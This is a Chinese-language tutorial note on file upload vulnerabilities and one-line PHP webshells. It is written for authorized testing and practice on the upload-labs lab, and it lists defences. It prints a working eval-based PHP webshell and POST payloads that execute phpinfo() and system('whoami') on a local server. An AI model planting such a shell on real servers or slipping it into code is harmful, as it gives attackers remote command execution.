

---
{"dg-publish":true,"permalink":"/计算机相关技术知识库/05-Web安全/文件上传漏洞与一句话木马/","title":"文件上传漏洞与一句话木马","tags":["Web安全/文件上传"],"dg-note-properties":{"title":"文件上传漏洞与一句话木马","created":"2026-10-19","tags":["Web安全/文件上传"],"aliases":["文件上传漏洞","File Upload","一句话木马"]}}
---


# 文件上传漏洞与一句话木马

> [!warning] 合规声明
> 本文内容仅用于授权测试、upload-labs 靶场练习与防御学习。上传 Webshell 控制他人服务器属于违法行为。

## 什么是文件上传漏洞

**文件上传漏洞**是指用户上传了一个**可执行的脚本文件**（如 `php`、`jsp`、`xml`、`cer` 等），而 Web 系统没有进行检测或检测逻辑不够安全。

> [!important] 问题不在上传功能本身
> 文件上传功能本身没有问题，问题在于**上传后如何处理及解释文件**。如果上传目录允许脚本执行，攻击者就能把恶意脚本当作程序运行。

**文件上传攻击**：攻击者利用 Web 应用对上传文件过滤不严的漏洞，将应用定义类型范围之外的文件上传到 Web 服务器，且此类文件通常为木马。上传成功后，攻击者即可获得当前的 **Webshell**。

## 一句话木马

**木马**全称特洛伊木马（Trojan Horse），指寄宿在计算机里的一种非授权的远程控制程序。它能在管理员未发觉的情况下开放系统权限、泄露用户信息，甚至窃取整个计算机的管理权限。

**一句话木马**是一段非常简单的代码——短短一行，就能实现与大马相当的功能。它短小精悍、功能强大、隐蔽性好。

### PHP 一句话木马

```php
<?php @eval($_POST['mima']);?>
```

含义：

| 部分 | 作用 |
|------|------|
| `@` | 抑制错误输出 |
| `eval()` | 把字符串当作 PHP 代码执行 |
| `$_POST['mima']` | 接收 POST 参数 `mima` 的内容 |

## 本地验证流程

1. 准备一个 PHP 文件 `shell.php`，写入：

```php
<?php @eval($_POST['mima']);?>
```

2. 将 `shell.php` 放入 PHP 网站的根目录
3. 启动 phpstudy
4. 访问 `http://127.0.0.1/shell.php`，结果是**白屏页面**（因为没有传入参数）
5. 使用 POST 方式发送请求：

```text
mima=phpinfo();
```

6. 执行系统命令：

```text
mima=system('whoami');
```

7. 手动测试一句话木马非常麻烦，后续使用 Webshell 管理工具进行管理

> [!tip] 为什么访问是白屏
> `eval($_POST['mima'])` 只有在收到 POST 参数时才会执行。直接浏览器访问是 GET 请求，没有 `mima` 参数，所以没有任何输出。

## upload-labs 靶场

| 项目 | 说明 |
|------|------|
| 地址 | https://github.com/c0ny1/upload-labs |
| 本地搭建 | phpstudy |
| Docker 搭建 | `docker pull tanyiqu/upload-labs:21`<br>`docker run -d -p 8089:80 tanyiqu/upload-labs:21` |

> [!warning] 两种环境都需要
> 一些关卡只能通过 Windows 搭建实现，一些关卡只能通过 Linux 搭建实现，因此建议同时准备两种环境。

## 漏洞利用链



## 防御要点

| 措施 | 说明 |
|------|------|
| **白名单校验** | 只允许明确的扩展名（如 jpg/png/gif），并校验真实文件类型 |
| **文件重命名** | 上传后随机重命名，不使用用户提供的文件名 |
| **内容检测** | 校验文件头 / 魔数，图片可做二次渲染 |
| **上传目录禁止执行** | Nginx/Apache/IIS 配置上传目录不解析脚本 |
| **上传目录与 Web 根目录分离** | 文件存储到非 Web 可执行目录或对象存储 |
| **限制文件大小与数量** | 防止资源耗尽 |
| **WAF 与病毒扫描** | 检测已知 Webshell 特征 |

## 相关笔记

- [[计算机相关技术知识库/05-Web安全/Webshell 管理工具\|Webshell 管理工具]] — 蚁剑、冰蝎、菜刀、哥斯拉
- [[计算机相关技术知识库/05-Web安全/文件上传前端与 MIME 绕过\|文件上传前端与 MIME 绕过]] — Pass-01 / Pass-02
- [[计算机相关技术知识库/05-Web安全/文件上传扩展名绕过\|文件上传扩展名绕过]] — 黑名单与解析技巧
- [[计算机相关技术知识库/05-Web安全/文件上传 00 截断\|文件上传 00 截断]] — GET / POST 截断
- [[计算机相关技术知识库/05-Web安全/XSS 原理与分类\|XSS 原理与分类]] — 另一种常见 Web 漏洞
- [[计算机相关技术知识库/05-Web安全/XSS 利用与防御\|XSS 利用与防御]] — XSS 利用与防御
- [[计算机相关技术知识库/04-速查表/文件上传绕过速查\|文件上传绕过速查]] — 绕过手法速查
- [[计算机相关技术知识库/05-Web安全/Web 渗透测试概览\|Web 渗透测试概览]] — 渗透流程总览
